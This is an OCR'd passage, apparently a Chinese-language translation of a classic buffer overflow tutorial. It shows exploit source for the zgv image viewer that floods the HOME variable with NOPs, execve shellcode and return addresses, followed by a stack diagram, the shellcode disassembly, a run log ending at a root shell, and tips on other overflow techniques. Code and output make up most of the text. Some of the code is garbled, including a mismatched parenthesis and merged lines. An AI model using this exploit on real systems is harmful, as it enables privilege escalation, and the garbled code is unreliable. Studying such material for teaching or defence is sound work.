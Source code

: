 ```
char buffer[LEN];
long retaddr = RET;
int i;

fprintf(stderr,"using address 0x%lx\n",retaddr);

/* this fills the whole buffer with the return address, see 3b) */
for (i=0;i<LEN;i+=4)
   *(long *)&buffer[i] = retaddr;

/* this fills the initial buffer with NOP's, 100 chars less than the
   buffer size, so the shellcode and return address fits in comfortably */
for (i=0;i<LEN-strlen(shellcode)-100);i++)
   *(buffer+i) = NOP;   /* after the end of the NOPs, we copy in the execve() shellcode */  memcpy(buffer+i,shellcode,strlen(shellcode));
  /* export the variable, run zgv */   setenv("HOME", buffer, 1); execlp("zgv","zgv",NULL); return 0;
}
  /* EOF */   We now have a string looking like this:

[ ... NOP NOP NOP NOP NOP JMP SHELLCODE CALL /bin/sh RET RET RET RET RET RET ]
  While zgv's stack looks like this:

v-- 0xbffff574 is here
[     S   M   A   L   L   B   U   F   F   E   R   ] [SAVED EBP] [ORIGINAL RET]

The execution thread of zgv is now as follows:

main ... -> function() -> strcpy(smallbuffer,getenv("HOME"));
```

此时，zgv做不到边界检查，写入超出了smallbuffer，返回到main的地址被栈中的返回地址覆盖。function()离不开/ ret和栈中EIP指针。

```
0xbffff574 nop
0xbffff575 nop
0xbffff576 nop
0xbffff577 jmp $0x24                    1
0xbffff579 popl %esi          3 <--\    |
[... shellcode starts here ...]    |    |
0xbffff59b call -$0x1c             2 <--/
0xbffff59e .string "/bin/shX"
```

让我们来测试这个应用

```
# cc -o zgx zgx.c  # ./zgx using address 0xbffff574 bash#
```

**5b 编写攻击的进一步提示**

‍‍‍‍有很多可以被利用的程序，但尽管很脆弱。但是这有很多的技巧，你可以通过过滤等方式。还有其他的溢出技术，这并不一定要包括改变返回地址或只是返回地址。有指针溢出，函数分配的指针能够通过一个数据流来覆盖，改变程序执行的流程。利用返回地址指向shell环境指针，shellcode位于那里，而不是在栈上。
